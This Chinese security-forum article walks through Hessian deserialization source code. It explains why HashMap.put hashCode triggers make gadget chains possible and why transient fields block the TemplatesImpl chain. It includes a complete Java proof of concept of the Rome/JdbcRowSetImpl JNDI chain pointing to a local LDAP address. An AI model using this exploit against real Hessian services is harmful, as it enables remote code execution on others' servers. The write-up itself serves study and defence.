



# 从源码角度分析hessian特别的原因-先知社区

> **来源**: https://xz.aliyun.com/news/16341  
> **文章ID**: 16341

---

# 从源码角度分析hessian特别的原因

## 前言

学习了hessian反序列化后发现一个最大的区别就在于他的触发点和要求都和原生的JDK反序列化都不一样  
从源码角度我们就要看看是为什么

## 环境搭建

依赖

```
<dependency>
        <groupId>com.caucho</groupId>
        <artifactId>hessian</artifactId>
        <version>4.0.63</version>
    </dependency>

```

**Person.java**

```
import java.io.Serializable;

public class Person implements Serializable {
    public String name;
    public int age;

    public int getAge() {
        return age;
    }

    public String getName() {
        return name;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void setName(String name) {
        this.name = name;
    }
}

```

Test

```
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.Serializable;

public class Test implements Serializable {

    public static void main(String[] args) throws IOException {
        Person person = new Person();
        person.setAge(18);
        person.setName("Feng");

        byte[] s = serialize(person);
        System.out.println((Person) deserialize(s));
    }

    public static <T> T deserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bai = new ByteArrayInputStream(bytes);
        HessianInput input = new HessianInput(bai);
        Object o = input.readObject();
        return (T) o;
    }
    public static <T> byte[] serialize(T o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        HessianOutput output = new HessianOutput(bao);
        output.writeObject(o);
        System.out.println(bao.toString());
        return bao.toByteArray();
    }


}

```

## 基础调试

我们直接分析反序列化的过程  
首先进入readobejct

```
{
    int tag = read();

    switch (tag) {
    case 'N':
      return null;

    case 'T':
      return Boolean.valueOf(true);

    case 'F':
      return Boolean.valueOf(false);

    case 'I':
      return Integer.valueOf(parseInt());

    case 'L':
      return Long.valueOf(parseLong());

    case 'D':
      return Double.valueOf(parseDouble());

    case 'd':
      return new Date(parseLong());

    case 'x':
    case 'X': {
      _isLastChunk = tag == 'X';
      _chunkLength = (read() << 8) + read();

      return parseXML();
    }
    .......
case 'M': {
      String type = readType();

      return _serializerFactory.readMap(this, type);
    }
    .......

```

会根据我们的tag去来选择使用哪种过程，因为如果了解序列化的过程，就会知道序列化的过程，Hessian序列化是处理成Map的形式，所以code的第一个总是77，也就是对应着M的操作  
首先获取类型，然后进入readMap方法

```
public Object readMap(AbstractHessianInput in, String type)
    throws HessianProtocolException, IOException
  {
    Deserializer deserializer = getDeserializer(type);

    if (deserializer != null)
      return deserializer.readMap(in);
    else if (_hashMapDeserializer != null)
      return _hashMapDeserializer.readMap(in);
    else {
      _hashMapDeserializer = new MapDeserializer(HashMap.class);

      return _hashMapDeserializer.readMap(in);
    }
  }

```

会根据我们type去获取反序列化器，进入  
getDeserializer方法

```
public Deserializer getDeserializer(String type)
    throws HessianProtocolException
  {
    if (type == null || type.equals(""))
      return null;

    Deserializer deserializer;

    if (_cachedTypeDeserializerMap != null) {
      synchronized (_cachedTypeDeserializerMap) {
        deserializer = (Deserializer) _cachedTypeDeserializerMap.get(type);
      }

      if (deserializer != null)
        return deserializer;
    }


    deserializer = (Deserializer) _staticTypeMap.get(type);
    if (deserializer != null)
      return deserializer;

    if (type.startsWith("[")) {
      Deserializer subDeserializer = getDeserializer(type.substring(1));

      if (subDeserializer != null)
        deserializer = new ArrayDeserializer(subDeserializer.getType());
      else
        deserializer = new ArrayDeserializer(Object.class);
    }
    else {
      try {
        //Class cl = Class.forName(type, false, getClassLoader());
        Class cl = loadSerializedClass(type)；
        deserializer = getDeserializer(cl);
      } catch (Exception e) {
        log.warning("Hessian/Burlap: '" + type + "' is an unknown class in " + getClassLoader() + ":\n" + e);

        log.log(Level.FINER, e.toString(), e);
      }
    }

    if (deserializer != null) {
      if (_cachedTypeDeserializerMap == null)
        _cachedTypeDeserializerMap = new HashMap(8);
      synchronized (_cachedTypeDeserializerMap) {
        _cachedTypeDeserializerMap.put(type, deserializer);
      }
    }
    return deserializer;
  }

```

慢慢看，首先判断我们的type，然后又去\_staticTypeMap中去获取


里面是包含了我们各种基础类型的反序列化器，但是没有我们的type，然后就是一直判断，只有没有就一直判断，到

```
Class cl = loadSerializedClass(type);

deserializer = getDeserializer(cl);

```

实在没有就直接去加载它的class，然后再通过

```
public Deserializer getDeserializer(Class cl)
    throws HessianProtocolException
  {
    Deserializer deserializer;

    if (_cachedDeserializerMap != null) {
      deserializer = (Deserializer) _cachedDeserializerMap.get(cl);

      if (deserializer != null)
        return deserializer;
    }

    deserializer = loadDeserializer(cl);

    if (_cachedDeserializerMap == null)
      _cachedDeserializerMap = new ConcurrentHashMap(8);
    _cachedDeserializerMap.put(cl, deserializer);
    return deserializer;
  }

```

就是把我们的反序列化器加入到\_cachedDeserializerMap中，然后返回  
回到readMap，又进入到deserializer.readMap

```
Deserializer deserializer = getDeserializer(type);

    if (deserializer != null)
      return deserializer.readMap(in);

```

readMap方法

```
public Object readMap(AbstractHessianInput in)
    throws IOException
  {
    try {
      Object obj = instantiate();

      return readMap(in, obj);
    } catch (IOException e) {
      throw e;
    } catch (RuntimeException e) {
      throw e;
    } catch (Exception e) {
      throw new IOExceptionWrapper(_type.getName() + ":" + e.getMessage(), e);
    }
  }

```

先获取实例化的对象，然后继续`return readMap(in, obj);`

```
public Object readMap(AbstractHessianInput in, Object obj)
    throws IOException
  {
    try {
      int ref = in.addRef(obj);

      while (! in.isEnd()) {
        Object key = in.readObject();

        FieldDeserializer2 deser = (FieldDeserializer2) _fieldMap.get(key);

        if (deser != null)
          deser.deserialize(in, obj);
        else
          in.readObject();
      }

      in.readMapEnd();

      Object resolve = resolve(in, obj);

      if (obj != resolve)
        in.setRef(ref, resolve);

      return resolve;
    } catch (IOException e) {
      throw e;
    } catch (Exception e) {
      throw new IOExceptionWrapper(e);
    }
  }

```

会循环去反序列化我们从\_fieldMap获取的Filed



然后去调用`deser.deserialize(in, obj);`

```
public void deserialize(AbstractHessianInput in, Object obj)
      throws IOException
    {
      String value = null;

      try {
        value = in.readString();

        _unsafe.putObject(obj, _offset, value);
      } catch (Exception e) {
        logDeserializeError(_field, obj, value, e);
      }
    }
  }

```

读取Filed的值，然后再使用unsafe实例化对象，给我们的Filed赋值

如果字段都反序列化完成，就结束

当然上面其实是没有触发我们的漏洞的，因为真正能够触发我们漏洞的看下面的例子

## 恶意利用

### 代码例子

先给出广为流传的POC

```
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;

import com.sun.rowset.JdbcRowSetImpl;
import com.sun.syndication.feed.impl.EqualsBean;
import com.sun.syndication.feed.impl.ToStringBean;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.Serializable;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.HashMap;

public class Hessian_JNDI implements Serializable {

    public static <T> byte[] serialize(T o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        HessianOutput output = new HessianOutput(bao);
        output.writeObject(o);
        System.out.println(bao.toString());
        return bao.toByteArray();
    }

    public static <T> T deserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bai = new ByteArrayInputStream(bytes);
        HessianInput input = new HessianInput(bai);
        Object o = input.readObject();
        return (T) o;
    }

    public static void setValue(Object obj, String name, Object value) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static Object getValue(Object obj, String name) throws Exception{
        Field field = obj.getClass().getDeclaredField(name);
        field.setAccessible(true);
        return field.get(obj);
    }

    public static void main(String[] args) throws Exception {
        JdbcRowSetImpl jdbcRowSet = new JdbcRowSetImpl();
        String url = "ldap://localhost:9999/EXP";
        jdbcRowSet.setDataSourceName(url);


        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSet);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        //手动生成HashMap，防止提前调用hashcode()
        HashMap hashMap = makeMap(equalsBean,"1");

        byte[] s = serialize(hashMap);
        System.out.println(s);
        System.out.println((HashMap)deserialize(s));
    }

    public static HashMap<Object, Object> makeMap ( Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> s = new HashMap<>();
        setValue(s, "size", 2);
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, v1, v1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, v2, v2, null));
        setValue(s, "table", tbl);
        return s;
    }
}

```

当然还需要配合上我们的LDAP服务一起使用，而且还需要低的java版本

### 过程分析

这个过程和上面过程有什么不一样吗？  
主要在我们的这个过程中

```
public Object readMap(AbstractHessianInput in, String type)
    throws HessianProtocolException, IOException
  {
    Deserializer deserializer = getDeserializer(type);

    if (deserializer != null)
      return deserializer.readMap(in);
    else if (_hashMapDeserializer != null)
      return _hashMapDeserializer.readMap(in);
    else {
      _hashMapDeserializer = new MapDeserializer(HashMap.class);

      return _hashMapDeserializer.readMap(in);
    }
  }

```

因为我们的type获取到是为null,所以在getDeserializer的地方直接返回为null了

```
if (type == null || type.equals(""))
      return null;

```

会来到readMap方法最后的部分

```
else {
      _hashMapDeserializer = new MapDeserializer(HashMap.class);

      return _hashMapDeserializer.readMap(in);
    }

```

首先创建一个hashmap用来作为缓存,跟进方法

```
public MapDeserializer(Class<?> type)
  {
    if (type == null)
      type = HashMap.class;

    _type = type;

    Constructor<?> []ctors = type.getConstructors();
    for (int i = 0; i < ctors.length; i++) {
      if (ctors[i].getParameterTypes().length == 0)
        _ctor = ctors[i];
    }

    if (_ctor == null) {
      try {
        _ctor = HashMap.class.getConstructor(new Class[0]);
      } catch (Exception e) {
        throw new IllegalStateException(e);
      }
    }
  }

```

就是反射调用创建一个hashmap，然后进入它的readMap方法



会调用hashmap的put方法，而且重要的是我们的参数是反序列化出来的对象，相当于是可以控制的

我们熟悉的是

```
public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }

```

它会调用key的hash，然后调用key的hashcode方法

在前面学习的链子中，调用hashcode触发恶意类的难得还少吗  
比如cc6的TiedMapEntry方法  
调用它的Hahscode，然后调用getValue()，就可以调用任意map的get方法，map就是LazyMap，然后触发transform方法

还比如Rome反序列化  
调用我们的EqualBean的hashcode，然后可以调用到ToStringBean的toString方法，调用任意类的任意方法

### 特点分析

#### Serializable的不必要

我们还是使用刚刚的代码  
但是把person的接口去掉

```
import java.io.Serializable;

public class Person  {
    public String name;
    public int age;

    public int getAge() {
        return age;
    }

    public String getName() {
        return name;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public void setName(String name) {
        this.name = name;
    }
}

```

在检验类

我们看看什么时候会抛出

```
protected Serializer getDefaultSerializer(Class cl)
{
  if (_defaultSerializer != null)
    return _defaultSerializer;

  if (! Serializable.class.isAssignableFrom(cl)
      && ! _isAllowNonSerializable) {
    throw new IllegalStateException("Serialized class " + cl.getName() + " must implement java.io.Serializable");
  }

  if (_isEnableUnsafeSerializer
      && JavaSerializer.getWriteReplace(cl) == null) {
    return UnsafeSerializer.create(cl);
  }
  else
    return JavaSerializer.create(cl);
}

```

要么我们类没有实现序列化接口并且`! _isAllowNonSerializable`这个是ture，这个就是和我们原生反序列化不同的地方了

而 hessian 就提供了设置\_isAllowNonSerializable 的方法  
在 SerializerFactory 类中

```
public void setAllowNonSerializable(boolean allow)
{
  _isAllowNonSerializable = allow;
}

```

```
import com.caucho.hessian.io.HessianInput;
import com.caucho.hessian.io.HessianOutput;
import com.caucho.hessian.io.SerializerFactory;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.Serializable;

public class Test implements Serializable {


    public static void main(String[] args) throws IOException {
        Person person = new Person();
        person.setAge(123);
        person.setName("asd");

        byte[] s = serialize(person);
        System.out.println((Person) deserialize(s));
    }

    public static <T> T deserialize(byte[] bytes) throws IOException {
        ByteArrayInputStream bai = new ByteArrayInputStream(bytes);
        HessianInput input = new HessianInput(bai);
        SerializerFactory serializerFactory=new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        input.setSerializerFactory(serializerFactory);
        Object o = input.readObject();
        return (T) o;
    }
    public static <T> byte[] serialize(T o) throws IOException {
        ByteArrayOutputStream bao = new ByteArrayOutputStream();
        HessianOutput output = new HessianOutput(bao);
        SerializerFactory serializerFactory=new SerializerFactory();
        serializerFactory.setAllowNonSerializable(true);
        output.setSerializerFactory(serializerFactory);
        output.writeObject(o);
        System.out.println(bao.toString());
        return bao.toByteArray();
    }


}

```

  
最后也可以反序列化成功



#### transient 和 static 不可序列化

这个主要是字段的反序列化，前面也将了，在反序列化字段的时候首先是获取字段  
比如我们的TemplatesImpl链就不能再次使用了

在getFieldMap 方法

```
protected HashMap<String,FieldDeserializer2> 
 getFieldMap(Class<?> cl, FieldDeserializer2Factory fieldFactory)
 {
   HashMap<String,FieldDeserializer2> fieldMap
     = new HashMap<String,FieldDeserializer2>();

   for (; cl != null; cl = cl.getSuperclass()) {
     Field []fields = cl.getDeclaredFields();
     for (int i = 0; i < fields.length; i++) {
       Field field = fields[i];

       if (Modifier.isTransient(field.getModifiers())
           || Modifier.isStatic(field.getModifiers()))
         continue;
       else if (fieldMap.get(field.getName()) != null)
         continue;

/*
       // XXX: could parameterize the handler to only deal with public
       try {
         field.setAccessible(true);
       } catch (Throwable e) {
         e.printStackTrace();
       }
*/

       FieldDeserializer2 deser = fieldFactory.create(field);

       fieldMap.put(field.getName(), deser);
     }
   }

   return fieldMap;
 }

```

在序列化字段的时候如果是 transient 和 static 字段则不会参与序列化反序列化流程

因为TemplatesImpl类中被transient修饰的\_tfactory属性无法被序列化，进而导致TemplatesImpl类无法初始化(TemplatesImpl那条链的defineTransletClasses要求\_tfactory不为空，否则抛出异常)
